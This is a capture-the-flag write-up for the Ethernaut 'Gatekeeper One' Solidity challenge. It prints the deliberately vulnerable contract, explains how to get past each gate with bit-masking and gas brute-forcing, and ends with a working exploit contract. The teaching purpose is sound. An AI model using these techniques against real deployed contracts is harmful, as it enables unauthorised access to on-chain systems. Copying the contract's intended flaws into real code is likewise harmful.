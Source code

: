 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel13.svg)

Make it past the gatekeeper and register as an entrant to pass this level.
##### Things that might help:
- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Analysis
### Gate One

```sol
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

This modifier makes sure that the `msg.sender` should not be the `tx.origin`. This is similar to [Level 04 - Telephone](https://blog.dixitaditya.com/ethernaut-level-04-telephone).

To make sure our `msg.sender` and `tx.origin` are different, we need to create an intermediary contract that will make function calls to the Gatekeeper contract. This will make our caller's address the `tx.origin` and our deployed contract's address will be the `msg.sender` as received by the Gatekeeper.

---
### Gate Three

We will do the third gate before the second one because we need to make sure our logic clears this gate and does not revert due to this. This will make clearing the second gate easier.

```sol
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
}
```

This gate has three requirements and to properly go through them, we need to understand the concept of data type downcasting and upcasting along with bitmasking.

When you convert a bigger data type into a smaller one such as `uint32` into `uint16`, the smaller variable will lose some data. Eg: If I have a variable `uint32 someVar = 0x12345678` and I convert it into `uint16`, I'll be left with `0x5678`.

Similarly, if I wanted to convert `uint16` into `uint32`, the above value will become `0x00005678`.

Let's now talk about Bit masking. This is just the `&` bitwise operation. Eg: `1 AND 0` will be 0. `1 AND 1` will become 1. We will make use of bitmasking when we submit the final key to this gate.

With the above techniques in hand, let's try to clear this gate. Let's assume that we have to send the following value as our key - `0x B1 B2 B3 B4 B5 B6 B7 B8`. We are taking 8 bytes because the function `enter()` needs an argument of `bytes8 _gateKey`.

1. The first statement asks us to satisfy the following condition:
```
    0x B5 B6 B7 B8 == 0x 00 00 B7 B8
``` 
We can see that B5 and B6 will be 0.

2. The second statement will become:
```
    0x 00 00 00 00 B5 B6 B7 B8 != 0x B1 B2 B3 B4 B5 B6 B7 B8
``` 
This shows that the bytes B1, B2, B3, and B4 can be anything but 0.

3. The third statement will be:
```
    0x B5 B6 B7 B8 == 0x 00 00 (last two bytes of tx.origin)
``` 
We can see that B7 and B8 will be the last two bytes of the address of our `tx.origin`.

Therefore, the key will be:

```
0x ANY_DATA ANY_DATA ANY_DATA ANY_DATA 00 00 SECOND_LAST_BYTE_OF_ADDRESS LAST_BYTE_OF_ADDRESS
```

This was all about data type conversion. Now let's see how the bitmasking comes into play.

Since we need to use our `tx.origin` address to build our key, we can use the AND operation to set the value of B5 and B6 to 0, and the last two bytes (FFFF) to our `tx.origin`'s last two bytes i.e.,

```
bytes8(uint64(tx.origin) & 0xFFFFFFFF0000FFFF
```

Here, we are taking `uint64` value of `tx.origin` since we need 8 bytes and doing an AND operation with the value `0xFFFFFFFF0000FFFF`.

Compare it with our 0xB1B2B3B4B5B6B7B8 example shown above. The first four bytes are all `F` (not 0), B5 and B6 are 0, and the last two bytes are F because this will help retain our last two address bytes.

This will give us our final key needed to clear the gate.

---
### Gate Two

```sol
modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
}
```

`gasleft()` tells us the remaining gas after the execution of the statement. To clear gate two, we need to make sure that the statement `gasleft() % 8191 == 0`, i.e., our supplied gas input should be a multiple of 8191.

So how do we decide the exact number of gas to send? There are two ways.

Either use Remix debugger to step through each function and when the `gasleft` statement is reached, count the gas and work backward to arrive at the correct number which is too much work and we won't go there.

The other smart move is to just bruteforce the function and increment the gas in each function call until one of the values hits the spot.

---
## The Exploit

Let's look at our [exploit code](https://github.com/az0mb13/ethernaut-foundry/blob/master/src/level13.sol):

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../instances/Ilevel13.sol";

contract LetMeThrough {

    GatekeeperOne level13 = GatekeeperOne(0x27F9AB03aEd76ba2E93Ad7D8AcEE743b1F59b3ee);

    function exploit() external{
        bytes8 _gateKey = bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = address(level13).call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
            if (success) {
                break;
            }
        }
    }
}
```

Let us go through the code line by line.

- The function `exploit()` defines a `_gateKey` derived from our `tx.origin` and the bit masking value `0xFFFFFFFF0000FFFF` as discussed in the above section. This is then casted into `bytes8` and stored in the variable.
- We are making using of `.call()` to make a function call to the `enter()` function. This will allow us to specify the exact amount of gas to send.
- There's a `for` loop which goes from 0 to 300. This is just a random value I chose.
- The amount of gas is in the form of `i + (8191 * k)`. Assuming that `i` is the amount of gas used before the function `gasleft()` was called, and the remaining is a multiple of 8191. If we fix `k` at a certain value, all we need is to find `i`. I'll take `k` to be 3 and `i` will go from 0 to 300.
- Once the loop starts, since the function `enter()` returns a `bool`, we are storing the return in a `success` variable and checking if it's true, therefore breaking the loop once our gas value is accepted.

Now we just need to deploy this contract on the Rinkeby network and call our `exploit()` function to trigger the exploit.

___
Well done! Next, try your hand with the second gatekeeper...